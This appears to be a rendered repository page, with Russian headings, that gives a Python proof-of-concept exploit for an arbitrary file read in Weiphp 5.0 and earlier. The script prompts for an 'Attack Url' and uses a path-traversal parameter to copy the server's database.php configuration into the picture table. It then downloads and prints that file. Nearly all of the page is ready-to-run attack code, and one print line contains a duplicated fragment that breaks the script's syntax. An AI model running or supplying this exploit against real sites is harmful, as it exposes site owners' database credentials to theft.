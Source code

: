 <languages   />

Воздействие уязвимости
----------------------

    Weiphp <= 5.0

POC
---

    #!/usr/bin/python3
    #-*- coding:utf-8 -*-
    # author : PeiQi
    # from   : http://wiki.peiqi.tech


    import requests
    import random
    import re


    def title():
        print('+------------------------------------------')
        print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
        print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
        print('+  \033[34m公众号 : PeiQi文库                                                \033[0m')                            \033[0m')
        print('+  \033[34mVersion: Weiphp5.0                                                \033[0m')
        print('+  \033[36m使用格式: python3 poc.py                                            \033[0m')
        print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx                                 \033[0m')
        print('+------------------------------------------')

    def POC_1(target_url):
        upload_url = target_url + "/public/index.php/material/Material/_download_imgage?media_id=1&picUrl=./../config/database.php"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
        }
        data = {
            "1":1
        }
        try:
            response = requests.post(url=upload_url, headers=headers, data=data, timeout=20)
            if response.status_code == 200:
                print("\033[32m[o] 成功将 database.php文件 写入Pictrue表中\033[0m")
            else:
                print("\033[31m[x] 漏洞利用失败 \033[0m")
        except:
            print("\033[31m[x] 漏洞利用失败 \033[0m")

    def POC_2(target_url):
        vnln_url = target_url + "/public/index.php/home/file/user_pics"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
        }
        try:
            response = requests.get(url=vnln_url, headers=headers).text
            href = re.findall(r'<img src="(.*?)"', response)
            for i in href:
                print("\033[32m[o] 得到敏感文件url：{}\033[0m".format(i))
                data = requests.get(url=i, headers=headers)
                path = str(random.randint(1,999)) + '.php'
                with open(path, 'wb') as f:
                    f.write(data.content)
                    print("\033[32m[o] 成功下载文件为：{}\033[0m".format(path))
                    print("\033[32m[o] 文件内容为：\n\033[0m{}".format(data.text))
        except:
                print("\033[31m[x] 获取文件名失败 \033[0m")



    if __name__ == '__main__':
        title()
        target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
        POC_1(target_url)
        image_url = POC_2(target_url)

Ссылка
------

<http://wiki.peiqi.tech/PeiQi_Wiki/CMS%E6%BC%8F%E6%B4%9E/Weiphp/Weiphp5.0%20%E5%89%8D%E5%8F%B0%E6%96%87%E4%BB%B6%E4%BB%BB%E6%84%8F%E8%AF%BB%E5%8F%96%20CNVD-2020-68596.html>